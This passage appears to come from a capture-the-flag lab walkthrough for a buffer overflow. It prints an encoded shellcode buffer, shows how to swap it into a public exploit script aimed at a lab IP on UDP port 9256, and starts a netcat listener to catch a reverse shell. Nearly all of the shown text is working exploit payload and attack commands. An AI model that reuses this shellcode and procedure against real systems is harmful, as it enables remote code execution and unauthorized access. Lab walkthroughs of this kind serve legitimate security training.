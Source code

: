 ```shell
buf += b"\x61\x4f\x61\x4a\x72\x6b\x6a\x72\x68\x6b\x62\x6d"
buf += b"\x4f\x6d\x50\x68\x4f\x43\x4f\x42\x4d\x30\x59\x70"
buf += b"\x61\x58\x33\x47\x72\x53\x4d\x62\x71\x4f\x51\x44"
buf += b"\x52\x48\x6e\x6c\x43\x47\x4e\x46\x39\x77\x39\x6f"
buf += b"\x66\x75\x36\x58\x46\x30\x5a\x61\x6d\x30\x4d\x30"
buf += b"\x4b\x79\x57\x54\x61\x44\x50\x50\x30\x68\x4b\x79"
buf += b"\x53\x50\x72\x4b\x59\x70\x79\x6f\x66\x75\x70\x50"
buf += b"\x32\x30\x62\x30\x62\x30\x6d\x70\x70\x50\x6d\x70"
buf += b"\x50\x50\x71\x58\x6a\x4a\x5a\x6f\x67\x6f\x57\x70"
buf += b"\x69\x6f\x5a\x35\x32\x77\x42\x4a\x59\x75\x63\x38"
buf += b"\x4b\x5a\x69\x7a\x4c\x4e\x76\x6e\x73\x38\x6b\x52"
buf += b"\x69\x70\x6b\x70\x4b\x4b\x73\x59\x77\x76\x61\x5a"
buf += b"\x5a\x70\x62\x36\x62\x37\x43\x38\x36\x39\x47\x35"
buf += b"\x32\x54\x6f\x71\x6b\x4f\x77\x65\x43\x55\x57\x50"
buf += b"\x61\x64\x5a\x6c\x79\x6f\x6e\x6e\x59\x78\x51\x65"
buf += b"\x7a\x4c\x62\x48\x4a\x50\x54\x75\x57\x32\x30\x56"
buf += b"\x6b\x4f\x5a\x35\x31\x58\x70\x63\x50\x6d\x6f\x74"
buf += b"\x6d\x30\x72\x69\x37\x73\x42\x37\x51\x47\x6f\x67"
buf += b"\x4e\x51\x4c\x36\x61\x5a\x4e\x32\x4e\x79\x4f\x66"
buf += b"\x47\x72\x39\x6d\x51\x56\x55\x77\x50\x44\x6c\x64"
buf += b"\x4d\x6c\x4a\x61\x6a\x61\x54\x4d\x61\x34\x6d\x54"
buf += b"\x6c\x50\x48\x46\x59\x70\x4f\x54\x30\x54\x70\x50"
buf += b"\x4e\x76\x52\x36\x30\x56\x70\x46\x72\x36\x70\x4e"
buf += b"\x4e\x76\x62\x36\x42\x33\x31\x46\x33\x38\x54\x39"
buf += b"\x66\x6c\x6f\x4f\x45\x36\x4b\x4f\x58\x55\x74\x49"
buf += b"\x59\x50\x70\x4e\x31\x46\x6e\x66\x4b\x4f\x50\x30"
buf += b"\x52\x48\x6b\x58\x71\x77\x6b\x6d\x6f\x70\x4b\x4f"
buf += b"\x6a\x35\x65\x6b\x6c\x30\x58\x35\x65\x52\x4e\x76"
buf += b"\x72\x48\x76\x46\x62\x75\x77\x4d\x65\x4d\x59\x6f"
buf += b"\x39\x45\x6d\x6c\x6d\x36\x31\x6c\x6b\x5a\x61\x70"
buf += b"\x6b\x4b\x6b\x30\x50\x75\x59\x75\x57\x4b\x31\x37"
buf += b"\x4a\x73\x62\x52\x52\x4f\x32\x4a\x4d\x30\x72\x33"
buf += b"\x69\x6f\x39\x45\x41\x41"
```

Replace the part of the Buffer Overflow inside the exploit with our Buffer Overflow:

```shell
sudo gedit 36025.py
```

And change the following line with the IP of our target machine:

```shell
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.129.140.222', 9256)
```

Now start our nc listener:

```shell
nc -lvnp 8443
```
